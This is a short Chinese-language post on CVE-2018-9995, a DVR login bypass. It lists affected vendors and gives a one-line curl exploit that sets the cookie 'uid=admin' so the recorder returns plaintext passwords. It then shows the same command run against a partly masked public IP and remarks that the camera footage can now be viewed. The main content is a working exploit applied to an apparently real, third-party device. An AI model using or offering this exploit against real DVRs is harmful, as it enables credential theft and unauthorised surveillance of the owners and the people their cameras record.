

TBK DVR Login Bypass（CVE-2018-9995）
简介
多款 DVR（硬盘录像机） 设备可提取明文凭证。
如果 cookie 中包含 uid=admin , 那么响应的数据包中会包含明文的密码。
受影响的厂商/标识
Novo
CeNova
QSee
Pulnix
XVR 5 in 1 (title: “XVR Login”)
Securus, - Security. Never Compromise !! -
Night OWL
DVR Login
HVR Login
MDVR Login
Exploit
1 | curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin" |
Example
1 | # curl "http://217.131.xx.x:84/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin" |
我们已经获取了密码，现在可以查看监控视频了。
